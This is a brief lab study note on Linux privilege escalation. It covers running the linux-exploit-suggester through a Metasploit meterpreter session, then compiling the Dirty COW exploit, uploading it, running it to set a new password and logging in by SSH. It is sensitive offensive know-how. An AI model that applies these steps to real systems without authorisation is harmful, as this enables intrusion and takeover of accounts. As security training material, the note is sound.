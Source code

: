 
Related to [[Privilege Escalation]], [[Linux Exploitation]] and [[Post Exploitation]]

We can use a linux exploit suggester

To do this we will need a [[Metasploit]] meterpreter session.

The repo for the exploit suggester:

https://github.com/mzet-/linux-exploit-suggester

We can transfer the needed file using our meterpreter session

``` bash
upload [path_to_shellfile]
```

Then whe will need a shell which we can obtain with 

``` bash
/bin/bash -i
```

We may also need to make the file executable.

We can download highlighted exploits from exploitdb

In the lab we need to compile a C exploit called dirty cow:

``` bash
sudo apt-get install gcc
gcc -pthread [file].c -o dirty -lcrypt
```

Dirty is the binary, we will need to transfer it to the target system:

``` bash
upload [pathtofile]
```

Then run it with:

``` bash
./dirty [newpassword]
```

If this fails we will need to compile the C code on the target machine.

Then change user connecting to it via SSH, you may need to change the key using the command ssh will provide